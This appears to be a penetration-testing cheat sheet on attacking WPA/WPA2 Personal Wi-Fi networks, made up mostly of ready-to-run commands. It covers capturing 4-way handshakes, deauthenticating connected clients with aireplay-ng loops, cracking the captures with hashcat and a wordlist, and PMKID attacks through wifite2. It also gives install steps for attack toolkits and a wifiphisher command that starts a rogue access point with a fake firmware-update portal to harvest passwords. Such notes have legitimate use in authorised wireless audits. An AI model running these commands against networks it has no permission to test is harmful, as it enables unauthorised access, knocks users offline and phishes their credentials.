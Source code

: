 ```yaml
---
description: Wi-Fi Protected Access Personal
---
```


# WPA/WPA2 Personal




## 4-Way Handshake

* [https://www.wifi-professionals.com/2019/01/4-way-handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work](https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work)
* [https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
* [https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng](https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng)
* [https://hackware.ru/?p=74](https://hackware.ru/?p=74)
* [https://hackware.ru/?p=7542](https://hackware.ru/?p=7542)
* [https://hackware.ru/?p=5209](https://hackware.ru/?p=5209)

1\. Look for targets. Save BSSID (`00:00:00:00:00:01`), CH (`9`), ESSID (`SomeEssid`) and STATION (`00:00:00:00:00:02`) if deauth will be required:

```
$ sudo airodump-ng -M -U wlan1 [-c 36-165 (for 5GHz, see WLAN channels) or just -c 1-200 for all] [--band <abg>]
qq
```

2\. Start dumping the target's traffic:

```
[$ sudo iwconfig wlan1 channel 9]
$ sudo airodump-ng -c 9 --bssid 00:00:00:00:00:01 -w SomeEssid wlan1
```

3\. Send DeAuth packets in a separate terminal till `WPA handshake: XX:XX:XX:XX:XX:XX` appears (aggressive):

```
$ sudo aireplay-ng [-D] -0 2 -a 00:00:00:00:00:01 -c 00:00:00:00:00:02 wlan1
Or
$ for client in `cat 00:00:00:00:00:01.txt`; do sudo aireplay-ng -D -0 2 -a 00:00:00:00:00:01 -c $client wlan1; done
```

4\. Clean the capture, check it once again, covert to Hashcat format and crack it:

```
$ aircrack-ng SomeEssid*.cap
$ wpaclean SomeEssid-cleaned.cap SomeEssid-01.cap
$ cowpatty -r SomeEssid-cleaned.cap -s SomeEssid -c
$ /usr/lib/hashcat-utils/cap2hccapx.bin SomeEssid-cleaned.cap SomeEssid.hccapx
$ hashcat -m 2500 -O -a 0 -w 3 --session=wpa2 -o wpa2.out wpa2.in SomeEssid.hccapx seclists/Passwords/darkc0de.txt
```



### wifite2

```
$ sudo wifite -vi wlan1 --clients-only --wpa --no-wps
```




## PMKID

* [https://https://habr.com/ru/company/jetinfosystems/blog/419383/](https://habr.com/ru/company/jetinfosystems/blog/419383/)



### wifite2

```
$ sudo wifite -vi wlan1 --pmkid
```




## wifite2

* [https://github.com/derv82/wifite2](https://github.com/derv82/wifite2)
* [https://github.com/nuncan/wifite2mod](https://github.com/nuncan/wifite2mod)

> «Поэтому оптимальный алгоритм взло… аудита следующий: определяем, включен ли на целевой точке доступа режим WPS. Если да, запускаем PixieDust. Безуспешно? Тогда перебор известных пинов. Не получилось? Проверяем, не включено ли шифрование WEP, которое тоже обходится влет. Если нет, то выполняем атаку PMKID на WPA(2). Если уж и так не получилось, тогда вспоминаем классику и ждем хендшейка (чтобы не палиться) или активно кикаем клиентов, чтобы наловить их сессии авторизации.» — [&#93;&#91;](https://xakep.ru/2020/01/27/wifi-total-pwn/)

Install wifite2:

```
$ git clone https://github.com/derv82/wifite2 ~/tools/wifite2 && cd ~/tools/wifite2
$ sudo python setup.py install
```

Install hcxdumptool (for capturing PMKID hashes):

```
$ git clone https://github.com/ZerBea/hcxdumptool.git ~/tools/hcxdumptool && cd ~/tools/hcxdumptool
$ sudo apt install libcurl4-openssl-dev libssl-dev -y
$ make
$ sudo make install
```

Install (for converting PMKID packet captures into hashcat's format):

```
$ git clone https://github.com/ZerBea/hcxtools.git ~/tools/hcxtools && cd ~/tools/hcxtools
$ make
$ sudo make install
```

Fire up wifite2:

```
$ sudo wifite -vi wlan1 [--kill] [-5]
```




## airgeddon

* [https://github.com/v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)

```
$ git clone --depth 1 https://github.com/v1s1t0r1sh3r3/airgeddon.git ~/tools/airgeddon && cd ~/tools/airgeddon
$ sudo bash airgeddon.sh
```




## wifiphisher

* [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
* [Creating a custom phishing scenario · wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher/blob/5ae21ab93e0dce85dd4bf76e68cc3b996aa33dea/docs/custom_phishing_scenario.rst)

Install:

```
$ git clone https://github.com/wifiphisher/wifiphisher.git ~/tools/wifiphisher && cd ~/tools/wifiphisher
$ sudo python3 setup.py install # Install any dependencies
```

Start a rogue AP with fake captive portal (firmware update scenario) on wlan1 and deauth clients with wlan2:

```
$ sudo wifiphisher -aI wlan1 -eI wlan2 -p wifi_connect
```
